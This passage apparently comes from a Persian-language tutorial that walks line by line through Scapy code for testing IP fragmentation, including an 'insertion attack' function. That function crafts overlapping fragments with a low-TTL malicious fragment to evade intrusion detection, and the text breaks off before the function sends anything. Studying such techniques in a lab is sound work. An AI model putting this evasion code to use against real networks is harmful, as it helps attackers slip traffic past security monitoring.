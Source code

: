 **خط به خط:**
- **خط 2**: چاپ عنوان تست TTL=1
- **خط 3**: ایجاد payload 2500 بایتی
- **خط 4**: ساخت پکت IP با TTL=1
- **خط 5-6**: ساخت UDP و ترکیب لایه‌ها
- **خط 8**: چاپ اطلاعات ارسال
- **خط 9**: قطعه‌بندی پکت
- **خط 10**: چاپ تعداد قطعات
- **خط 12-16**: حلقه ارسال تمام قطعات با TTL=1

## تابع send_normal_fragmented

```python
def send_normal_fragmented():
    print("\n=== Normal Fragmentation (Control) ===")
    payload = create_large_payload(2000)
    ip_packet = IP(dst=SERVER_IP)
    udp_packet = UDP(dport=SERVER_PORT)
    full_packet = ip_packet / udp_packet / payload
    
    print(f"Sending normal fragmented packet, size: {len(full_packet)} bytes")
    send(full_packet, verbose=0)
```

**خط به خط:**
- **خط 2**: چاپ عنوان قطعه‌بندی عادی
- **خط 3**: ایجاد payload 2000 بایتی
- **خط 4**: ساخت پکت IP عادی (بدون تنظیمات خاص)
- **خط 5-6**: ساخت UDP و ترکیب
- **خط 8**: چاپ اطلاعات
- **خط 9**: ارسال پکت (Scapy خودکار آن را قطعه‌بندی می‌کند)

## تابع demonstrate_insertion_attack

```python
def demonstrate_insertion_attack():
    print("\n=== Insertion Attack Demonstration ===")
    malicious_payload = "MALICIOUS_CONTENT_ATTACK_PAYLOAD"
    legitimate_payload = "LEGITIMATE_NORMAL_CONTENT_DATA"
    
    base_ip = IP(dst=SERVER_IP, id=12345)
    
    # Fragment 1
    frag1 = base_ip.copy()
    frag1.ttl = 64
    frag1.frag = 0
    frag1.flags = "MF"
    packet1 = frag1 / UDP(dport=SERVER_PORT) / legitimate_payload[:20]
    
    # Fragment 2 (Malicious)
    frag2 = base_ip.copy()
    frag2.ttl = 2
    frag2.frag = 0
    frag2.flags = "MF"
    packet2 = frag2 / Raw(malicious_payload[:20])
    
    # Fragment 3
    frag3 = base_ip.copy()
    frag3.ttl = 64
    frag3.frag = 3
    frag3.flags = 0
    packet3 = frag3 / Raw(legitimate_payload[20:])
    
```